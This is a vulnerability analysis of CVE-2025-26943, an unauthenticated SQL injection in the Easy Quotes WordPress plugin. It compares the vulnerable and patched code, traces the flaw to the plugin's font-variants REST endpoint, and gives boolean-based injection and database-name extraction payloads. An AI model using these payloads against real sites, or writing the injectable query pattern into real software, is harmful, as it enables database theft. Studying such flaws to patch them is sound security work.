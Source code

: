 # CVE-2025-26943 Analysis & POC


---

A vulnerability exists in the **Easy Quotes** WordPress plugin prior to version **1.2.3**. This can allow an attacker to interact directly with your database, including but not limited to data exfiltration.

* **CVE ID**: [CVE-2025-26943](https://www.cve.org/CVERecord?id=CVE-2025-26943)
* **Product**: [WordPress Easy Quotes Plugin](https://wordpress.org/plugins/easy-quotes/#description)
* **Vulnerability Type**: SQL Injection
* **Affected Versions**: <= 1.2.2
* **CVSS severity**: High (9.3)
* **Required Privilege**: Unauthenticated

---

## Requirements

* [**Local WordPress and Debugging**](https://w41bu1.github.io/posts/wordpress-local-and-debugging/)
* **Easy Quotes Plugin**: v1.2.2 (vulnerable) and v1.2.3 (fixed)
* **diff tool**: **meld** or any tool capable of comparing two versions to show differences

---

## Analysis

The application injects user-supplied data directly into an SQL query **without appropriate protections**, which leads to SQL Injection.

### Patch Diff

Use any diff tool to compare the vulnerable version and the patched version.
A clear difference exists in the file **includes/quotes-data.php**:

```php
private static function get_family_data($family) {
    /** @var wpdb $wpdb */
    global $wpdb;
    $tablename = $wpdb->prefix . 'easy-quotes-families';
    return $wpdb->get_row("SELECT * FROM `".$tablename."` WHERE `family`='".$family."';");
}
```

The patch uses `$wpdb->prepare()` instead of concatenating user-supplied data directly into the query:

```php
private static function get_family_data($family) {
    /** @var wpdb $wpdb */
    global $wpdb;
    $tablename = $wpdb->prefix . 'easy-quotes-families';
    $sql = $wpdb->prepare(
        "SELECT * FROM %i WHERE `family` = %s",
        $tablename, $family
    );
    return $wpdb->get_row($sql);
}
```

![patch diff](patch_dif.png "Patch diff")

Many other functions were patched the same way, such as `get_font_variant($family_id, $variant_id)`, `get_font_variants($family)`, and `get_fonts($category = -1)`.

Although `get_fonts_categories()` was also updated, it does not accept user input and is thus not relevant to the SQLi issue:

```php
public static function get_fonts_categories() {
    /** @var wpdb $wpdb */
    global $wpdb;
    $tablename = $wpdb->prefix . 'easy-quotes-categories';
    $sql = $wpdb->prepare(
        "SELECT `category_id`, `category` FROM %i",
        $tablename
    );
    return $wpdb->get_results($sql);
}
```

### How it works

We exploit the SQL Injection in the function `get_family_data($family)`, and other functions are vulnerable in a similar manner.

`get_family_data()` is a private function in the `Quotes_Data` class (the example below shows context):

```php
class Quotes_Data
{
    function __construct()
    {
        add_filter('posts_where', array($this, 'posts_where'), 10, 2);
    }

    // other functions

    public static function get_font_variants($family) {
        $familyData = self::get_family_data($family);
        // other logic
    }

    public static function get_family($family, $variant_id) {
        $family_data = (array)self::get_family_data($family);
        // other logic
    }

    private static function get_family_data($family) {
        /** @var wpdb $wpdb */
        global $wpdb;
        $tablename = $wpdb->prefix . 'easy-quotes-families';
        return $wpdb->get_row("SELECT * FROM `".$tablename."` WHERE `family`='".$family."';");
    }
}
```

`get_family_data()` is called by `get_family()` and `get_font_variants()`; to find where these are used, search for `get_family` or `get_font_variants`.

![search func](search_func.png "Search function")

The `get_font_variants()` function is invoked by `rest_route_callback_font_variants()` in the `Quotes_Rest_Route` class:

```php
class Quotes_Rest_Route
{
    function __construct()
    {
        add_action('rest_api_init', array($this, 'rest_api_init'));
    }

    /**
     * Register my REST route
     *
     * @return void
     */
    function rest_api_init($wp_rest_server)
    {
        $args = [
            'method'                => WP_REST_Server::READABLE,
            'callback'              => [$this, 'rest_route_callback_quote'],
            'permission_callback'   => '__return_true'
        ];
        register_rest_route('layart/v1', '/quote', $args);

        // other logic

        $args['callback'] = [$this, 'rest_route_callback_font_variants'];
        register_rest_route('layart/v1', '/font-variants', $args);
    }

    // other functions

    function rest_route_callback_font_variants(WP_REST_Request $request)
    {
        $family = $request->get_param('family');
        $family = isset($family) ? $family : "Shadows Into Light";

        $response = Quotes_Data::get_font_variants($family);
        return rest_ensure_response($response);
    }
}
```

The constructor of `Quotes_Rest_Route` uses `add_action('rest_api_init', ...)` to register endpoints with WordPress's REST API system.

The callback `rest_route_callback_font_variants` corresponds to the endpoint `/wp-json/layart/v1/font-variants?family=family_name`. If the `family` parameter is not provided, it defaults to `Shadows Into Light`.

---

## Exploit

### Detecting SQLi

We use a **Boolean-based SQL Injection** technique to test whether the `family` parameter is injectable.

**True request** (example):
When the injected condition evaluates to true, the query returns normally:

```sql
SELECT * FROM wp_easy-quotes-families WHERE family='Roboto' AND '1'='1';
```

**False request** (example):
When the injected condition is false, no results are returned:

```sql
SELECT * FROM wp_easy-quotes-families WHERE family='Roboto' AND '1'='2';
```

### Get First Letter of Database Name

A prerequisite to dumping data is being able to extract a single character of the database name; once you can obtain one character, you can typically extract the rest.

> In my test environment the database name is **wordpress**, so the first character is `w`.

![First letter](first_letter.png "First letter")

A payload checking `SUBSTRING(DATABASE(),1,1)='w'` returns data normally, confirming the first letter is `w`:

```sql
SELECT * FROM wp_easy-quotes-families WHERE family='Roboto' AND SUBSTRING(DATABASE(),1,1)='w';
```

---

## Conclusion

The vulnerability **CVE-2025-26943** in the WordPress **Easy Quotes** plugin (versions prior to **1.2.3**) is caused by concatenating user-supplied input directly into SQL queries instead of using prepared statements (`$wpdb->prepare`), which results in SQL Injection.

The official patch replaces string concatenation with `$wpdb->prepare`, ensuring user input is safely handled.

**Key takeaways**:

* Always use `$wpdb->prepare()` when interacting with the database in WordPress to prevent SQL Injection.
* Regularly update plugins and perform security checks to avoid becoming an attack target.

---

## References

[SQL Injection cheat sheet - PortSwigger](https://portswigger.net/web-security/sql-injection/cheat-sheet)

[WordPress Easy Quotes Plugin <= 1.2.2 is vulnerable to SQL Injection](https://patchstack.com/database/wordpress/plugin/easy-quotes/vulnerability/wordpress-easy-quotes-plugin-1-2-2-sql-injection-vulnerability)

---

